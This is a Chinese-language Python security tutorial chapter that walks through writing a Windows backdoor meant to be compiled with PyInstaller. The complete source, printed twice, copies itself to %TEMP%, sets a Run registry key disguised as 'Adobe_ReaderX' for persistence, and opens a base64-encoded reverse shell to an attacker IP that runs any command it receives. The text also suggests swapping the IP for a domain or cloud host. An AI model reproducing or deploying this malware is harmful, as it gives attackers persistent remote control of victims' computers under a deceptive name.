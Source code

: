 
本节将带着大家利用前面章节所学到的知识使用Python和PyInstalle自己的exp,在前面的[章节][1],讲到了如何把一个python脚本编译成为一个可执行的PE文件,现在让我们利用前面学到的知识快速写一个windows工具脚本.

###开始编码

大家其实会发现,很多恶意中间件最想干的一件事情就是获得被攻击系统的持久性(永久的潜伏在系统里面,永久性后门),像在windows里面最常见的一种方式就是被攻击系统的注册表键值.

`Software\Microsoft\Windows\CurrentVersion\Run`

下面的这一小段代码实现的功能就是把程序拷贝到%TEMP%目录下面并且修改了注册表,当用户登录到系统的时间就会执行这个后门:

```
import sys, base64, os, socket, subprocess
from _winreg import *

def autorun(tempdir, fileName, run):
# 复制执行文件的到 %TEMP%:
    os.system('copy %s %s'%(fileName, tempdir))

# 查询注册表对应的键值是多少
# 给该后门添加自动执行的权限
    key = OpenKey(HKEY_LOCAL_MACHINE, run)
    runkey =[]
    try:
        i = 0
        while True:
            subkey = EnumValue(key, i)
            runkey.append(subkey[0])
            i += 1
    except WindowsError:
        pass

# 设置键值:
    if 'Adobe ReaderX' not in runkey:
        try:
            key= OpenKey(HKEY_LOCAL_MACHINE, run,0,KEY_ALL_ACCESS)
            SetValueEx(key ,'Adobe_ReaderX',0,REG_SZ,r"%TEMP%\mw.exe")
            key.Close()
        except WindowsError:
            pass
```

现在我们已经把后门拷贝到了%TEMP%目录下面,并且给它添加了自动执行的权限,下面是一个shell,通过一个Python脚本——[TrustedSec][2]来实现攻击,但是做了一点修改,对传输的文本做了一个base64编码.

```
def shell():
#Base64 编码反向shell
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.56.1', int(443)))
    s.send('[*] Connection Established!')
    while 1:
        data = s.recv(1024)
        if data == "quit": break
        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        stdout_value = proc.stdout.read() + proc.stderr.read()
        encoded = base64.b64encode(stdout_value)
        s.send(encoded)
        #s.send(stdout_value)
    s.close()

def main():
    tempdir = '%TEMP%'
    fileName = sys.argv[0]
    run = "Software\Microsoft\Windows\CurrentVersion\Run"
    autorun(tempdir, fileName, run)
    shell()

if __name__ == "__main__":
        main()
```

简单的解释这个程序:当这个程序执行的时候会与攻击者的电脑建立一个连接,但是脚本中的连接是一个固定IP,这里可以修改为一个域名或者是Amazon cloud的服务地址,从下图可以看出攻击者与受害者建立一个网络连接,你也可以注意到两者之间被base64编码后的数据流量包

![malware][3]

下面是完整代码:

```
import sys, base64, os, socket, subprocess
from _winreg import *

def autorun(tempdir, fileName, run):
# Copy executable to %TEMP%:
    os.system('copy %s %s'%(fileName, tempdir))

# Queries Windows registry for the autorun key value
# Stores the key values in runkey array
    key = OpenKey(HKEY_LOCAL_MACHINE, run)
    runkey =[]
    try:
        i = 0
        while True:
            subkey = EnumValue(key, i)
            runkey.append(subkey[0])
            i += 1
    except WindowsError:
        pass

# If the autorun key "Adobe ReaderX" isn't set this will set the key:
    if 'Adobe ReaderX' not in runkey:
        try:
            key= OpenKey(HKEY_LOCAL_MACHINE, run,0,KEY_ALL_ACCESS)
            SetValueEx(key ,'Adobe_ReaderX',0,REG_SZ,r"%TEMP%\mw.exe")
            key.Close()
        except WindowsError:
            pass

def shell():
#Base64 encoded reverse shell
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.56.1', int(443)))
    s.send('[*] Connection Established!')
    while 1:
        data = s.recv(1024)
        if data == "quit": break
        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        stdout_value = proc.stdout.read() + proc.stderr.read()
        encoded = base64.b64encode(stdout_value)
        s.send(encoded)
        #s.send(stdout_value)
    s.close()

def main():
    tempdir = '%TEMP%'
    fileName = sys.argv[0]
    run = "Software\Microsoft\Windows\CurrentVersion\Run"
    autorun(tempdir, fileName, run)
    shell()

if __name__ == "__main__":
        main()

```


  [1]: https://github.com/smartFlash/pySecurity/blob/master/zh-cn/0x4.md
  [2]: https://www.trustedsec.com/files/RevShell_PoC_v1.py
  [3]: img/0xc.png
